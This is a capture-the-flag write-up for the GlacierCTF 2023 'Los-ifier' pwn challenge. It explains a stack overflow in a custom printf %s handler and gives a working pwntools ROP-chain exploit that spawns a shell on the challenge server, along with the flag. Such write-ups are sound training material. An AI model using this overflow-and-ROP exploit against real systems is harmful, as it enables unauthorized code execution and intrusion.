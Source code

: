 ```yaml
---
title: Los-ifier
date: 2023-11-24T20:00:00+02:00
description: Writeup for Los-ifier [GlacierCTF 2023]
type: writeup
author: PineBel
tags:
- pwn
draft: false
---
```


## Challenge Description:

Normal binary for normal people.

## Intuition 


First we run a checksec and a file on the binary and we can see that it's statically linked and that it lacks PIE. 
When first opening the binary in Ghidra we see a simple main function with nothing special, we can also observe that there is a function named setup() called, let's investigate. When opening the function, there is an interesting call made : register_printf_specifier(0x73,printf_handler,printf_arginfo_size). What this actually does is handling the %s fromat  specifier from the printf() function, let's see how the printf is handled in the printf_handler function. We observe another weird function, named loscopy() which takes three parameters. The first one is the address of local_58 + 3, the second one is our input and the last one is 10 ('\n'). Opening the loscopy function  we can see an overflow vulnerability inside of the while. 
 

 ```c
 undefined8 main(void)

{
  char local_108 [256];
  
  setup();
  fgets(local_108,0x100,(FILE *)stdin);
  printf("-> %s\n",local_108);
  return 0;
}

void setup(void)

{
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  register_printf_specifier(0x73,printf_handler,printf_arginfo_size);
  return;
}

size_t printf_handler(FILE *param_1,undefined8 param_2,undefined8 *param_3)

{
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  size_t local_18;
  undefined8 local_10;
  
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  local_10 = *(undefined8 *)*param_3;
  local_58 = 0x736f4c;
  loscopy((long)&local_58 + 3,local_10,10);
  local_18 = strlen((char *)&local_58);
  fwrite(&local_58,1,local_18,param_1);
  return local_18;
}


void loscopy(char *param_1,char *param_2,char param_3)

{
  char *local_18;
  char *local_10;
  
  local_18 = param_2;
  local_10 = param_1;
  while (param_3 != *local_18) {
    *local_10 = *local_18;
    local_18 = local_18 + 1;
    local_10 = local_10 + 1;
  }
  return;
}

```
 
 ## Solution 
 
 Let's see what we can get from GDB, putting a breakpoint in the loscopy() function we can see that we can overwrite the __printf_function_invoke() with our input.  

```
[#0] 0x40182c → loscopy()
[#1] 0x4018d0 → printf_handler()
[#2] 0x43c3b7 → __printf_function_invoke()
[#3] 0x405672 → printf_positional()
[#4] 0x4072b7 → __printf_buffer()
[#5] 0x409181 → __vfprintf_internal()
[#6] 0x404d19 → printf()
[#7] 0x4019c6 → main()

gef➤  x/20g 0x00007fffffffc940
0x7fffffffc940: 0x00007fffffffc9c0      0x00000000004018d0
0x7fffffffc950: 0x0000000000000000      0x00007fffffffc9e0
0x7fffffffc960: 0x00007fffffffcc30      0x00007fffffffca00
0x7fffffffc970: 0x4141414141736f4c      0x4141414141414141
0x7fffffffc980: 0x0000414141414141      0x0000000000000000
0x7fffffffc990: 0x0000000000000000      0x0000000000000000
0x7fffffffc9a0: 0x0000000000000000      0x0000000000000000
0x7fffffffc9b0: 0x0000000000000000      0x00007fffffffdc00
0x7fffffffc9c0: 0x00007fffffffc9e0      0x000000000043c3b7
0x7fffffffc9d0: 0x0000000000000000      0x00007fffffffcc30
```


The question now is, with what do we overwrite the __printf_function_invoke() address. Remembering that it's statically linked we can craft a payload and invoke a shell. First we need to see how much padding there is needed  10*8+5 bytes. To create this exploit we use a small ROP chain (gadgets were found with ROPgadget) , first we need to put the “/bin/sh” address into RDI (system's argument register) and then we should return to system. Let's see if it works! 

Getting the addresses of system and /bin/sh:

```
gef➤  p system
$1 = {<text variable, no debug info>} 0x404ae0 <system>

gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/home/kali/CTF/Glacier/Losifier/Losifier/chall'(0x478000-0x4a0000), permission=r--
  0x478010 - 0x478017  →   "/bin/sh" 
  0x4784d9 - 0x4784e0  →   "/bin/sh" 
```


Initial payload:
```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)


p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```


Mhmm, it doesn't work, let's see why. The error we got is: stopped 0x4047c8 in do_system (), reason: SIGSEGV. The problem is that the stack should be aligned in 16-byte bounderies, to fix this, we use a ret gadget for padding (found with ROPGadget). So our final payload looks like this:

```py
from pwn import *

target = remote( "chall.glacierctf.com" ,13392 )
p = b"\x00"*(10*8+5)

p += p64(0x000000000040101a) # ret for stack alignment 
p += p64(0x0000000000402188) # pop rdi; ret
p += p64(0x478010) # pointer to /bin/sh
p += p64(0x404ae0) # system


target.sendline(p)
target.interactive()
```

## Flag 

Running the script we get:

```
$ python3 payload_clever.py
[+] Opening connection to chall.glacierctf.com on port 13392: Done
[*] Switching to interactive mode
$ ls
app
flag.txt
$ cat flag.txt
gctf{th1s_1s_th3_@riginol_fl@9}
```



